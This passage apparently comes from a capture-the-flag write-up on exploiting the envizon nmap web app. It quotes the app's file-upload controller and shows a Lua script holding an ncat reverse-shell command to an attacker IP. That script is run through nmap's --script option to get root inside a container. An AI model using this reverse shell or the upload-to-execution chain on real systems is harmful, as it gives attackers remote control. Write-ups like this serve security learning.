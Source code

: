 We got the password now let's login! We are in! Ok now looking around we can upload file and run manual commands. Actually we can run commands with nmap. So let's try manual cmd. But before that let's check for source code of the file. Trying commands from GTFO didn't work. Maybe the command execution have been mitigated. Let's try to write a malicious lua script and execute it using --script option. We have to abuse the upload XML file functionality.

# /app/controllers/scans_controller.rb

```rb
# @url /scans/upload
# @action POST
#
# @required [String] :name name of the scan
# @required [File] :xml_file uploaded file, XML-output of nmap -oX
def upload
  if %i[xml_file name].all? { |key| params[key].present? }
    xmls = params[:xml_file]
    name = params[:name]
    xmls.each_with_index do |xml, index|
      FileUtils.mkdir_p(Rails.root.join('nmap', 'uploads'))
      destination = Rails.root.join('nmap', 'uploads', "#{name}_#{index.to_s}.xml")
      FileUtils.move xml.path, destination
      scan = Scan.new(name: name, user_id: current_user.id)
      scan.command = 'Scan in progress…'
      scan.save
      args_parse = {
        'xmlpath' => destination,
        'scan_id' => scan.id,
        'user_id' => current_user.id
      }
```

So the path where the file'll be uploaded is `/nmap/uploads`. And also no check for the contents of file.

# shell.lua

```lua
os.execute("ncat -e /bin/sh 10.9.12.130 1234")
```

Let's upload the file using `Upload nmap-XML` option. And then in `Tasks -> Retries` we can see that we have the path

```
{"xmlpath"=>"/usr/src/app/envizon/nmap/uploads/test_0.xml", "scan_id"=>46, "user_id"=>1}}
```

Now we have to go to `Manual Scan` and in `Nmap parameter` type `nmap --script /usr/src/app/envizon/nmap/uploads/test_0.xml` and Target as yout machine IP and any name. We got our shell as root! Ofcourse we are in a docker environment.

# /root/local.txt
